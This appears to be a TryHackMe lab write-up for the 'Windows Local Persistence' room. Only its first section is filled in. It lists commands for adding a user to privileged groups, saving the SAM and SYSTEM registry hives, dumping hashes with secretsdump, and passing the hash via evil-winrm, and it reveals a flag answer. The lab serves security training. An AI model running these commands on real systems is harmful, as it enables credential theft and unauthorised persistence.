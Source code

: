 ![Windows Local Persistence Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/windowslocalpersistence/Windows_Local_Persistence_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/windowslocalpersistence/Windows_Local_Persistence_Cover.png" alt="Windows Local Persistence Logo">
</p>

# Windows Local Persistence

This guide contains the answer and steps necessary to get to them for the [Windows Local Persistence](https://tryhackme.com/r/room/windowslocalpersistence) room.

## Table of contents

- [Tampering With Unprivileged Accounts](#tampering-with-unprivileged-accounts)
- [Backdooring Files](#backdooring-files)
- [Abusing Services](#abusing-services)
- [Abusing Scheduled Tasks](#abusing-scheduled-tasks)
- [Logon Triggered Persistence](#logon-triggered-persistence)
- [Backdooring the Login Screen / RDP](#backdooring-the-login-screen-/-rdp)
- [Persisting Through Existing Services](#persisting-through-existing-services)

### Tampering With Unprivileged Accounts

1. Insert flag1 here

   The first thing we need to do, is add the thmuser1 to the "Backup Operators" and the "Remote Management Users" groups. This can be done through the Administrator account.

   ```console
   net localgroup "Backup Operators" thmuser1 /add
   
   net localgroup "Remote Management Users" thmuser1 /add
   ```

   TAMPERING ADD USER

   We also need to disable the LocalAccountTokenFilterPolicy.

   ```console
   reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
   ```

   TAMPERING CHANGE POLICY

   Now we have access to the SAM and SYSTEM files. Lets export them from the registry and download them to our machine.

   ```console
   reg save hklm\system system.bak
   reg save hklm\sam sam.bak

   download system.bak
   download sam.bak
   ```

   TAMPERING DOWNLOAD

   After downloading, we can use the `secretsdump.py` file to dump the hashes from the hives.

   ```console
   python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
   ```

   With the found Administrator hash (only the last part), we can use a pass-the-hash method to login withn WinRM.

   ```console
   evil-winrm -i 10.10.112.47 -u Administrator -H f3118544a831e728781d780cfdb9c1fa
   ```

   Success! Now we can execute the flag file.

   TAMPERING FLAG1

   ><details><summary>Click for answer</summary>THM{FLAG_BACKED_UP!}</details>

2. Insert flag2 here

   First, we add the required privileges (SeBackupPrivilege and SeRestorePrivilege) to the account through the Administrator account.

   ```console
   secedit /export /cfg config.ini
   ```

   TAMPERING CONFIG

   Now we must load this configuration back into the system.

   ```console
   secedit /import /cfg config.ini /db config.db
   secedit /configure /db config.db /cfg config.ini
   ```

   Lastly, we change the descriptor for WinRM so the user can use it. Add the user and make sure it has full control.

   ```console
   Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
   ```

   TAMPERING DESCRIPTOR

   After having done that, we can login with this user and export and dump the hashes from the accounts as done in the previous question.

   Now login with the obtained Administrator hash.

   

   ><details><summary>Click for answer</summary></details>

3. Insert flag3 here



   ><details><summary>Click for answer</summary></details>

### Backdooring Files

1. Insert flag5 here



   ><details><summary>Click for answer</summary></details>

2. Insert flag6 here



   ><details><summary>Click for answer</summary></details>

### Abusing Services

1. Insert flag7 here



   ><details><summary>Click for answer</summary></details>

2. Insert flag8 here



   ><details><summary>Click for answer</summary></details>

### Abusing Scheduled Tasks

1. Insert flag9 here



   ><details><summary>Click for answer</summary></details>

### Logon Triggered Persistence

1. Insert flag10 here



   ><details><summary>Click for answer</summary></details>

2. Insert flag11 here



   ><details><summary>Click for answer</summary></details>

3. Insert flag12 here



   ><details><summary>Click for answer</summary></details>

4. Insert flag13 here



   ><details><summary>Click for answer</summary></details>

### Backdooring the Login Screen / RDP

1. Insert flag14 here



   ><details><summary>Click for answer</summary></details>

2. Insert flag15 here



   ><details><summary>Click for answer</summary></details>

### Persisting Through Existing Services

1. Insert flag16 here



   ><details><summary>Click for answer</summary></details>

2. Insert flag17 here



   ><details><summary>Click for answer</summary></details>

